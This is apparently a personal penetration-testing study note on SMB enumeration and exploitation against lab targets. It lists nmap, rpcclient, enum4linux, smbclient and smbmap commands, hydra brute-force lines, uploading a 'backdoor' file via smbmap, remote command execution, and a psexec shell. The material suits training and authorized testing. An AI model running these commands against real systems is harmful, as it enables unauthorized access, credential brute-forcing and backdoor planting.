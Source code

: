 Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
```

## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L \\\\192.126.66.3\\ -N =Nullsession, list shares

smbclient -L \\\\[10.10.125.84](notion://10.10.125.84/)\\=list shares

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\ADMIN$ = connect to the share with annon

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\IPC$ = connect to IPC

smbclient [//192.208.227.3/public](notion://192.208.227.3/public) -N => connected

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient -L 192.212.251.3 -U jane ⇒ List Shares, better give passsword

smbclient [//192.212.251.3/jane](notion://192.212.251.3/jane) -U jane ⇒ Access jane share using username jane.

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
mget = command to download file
GET and PUT command will work for downloading and uploading files.

# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)

## Mannual
```bash
psexec.py Administrator@10.2.29.107 cmd.exe
```
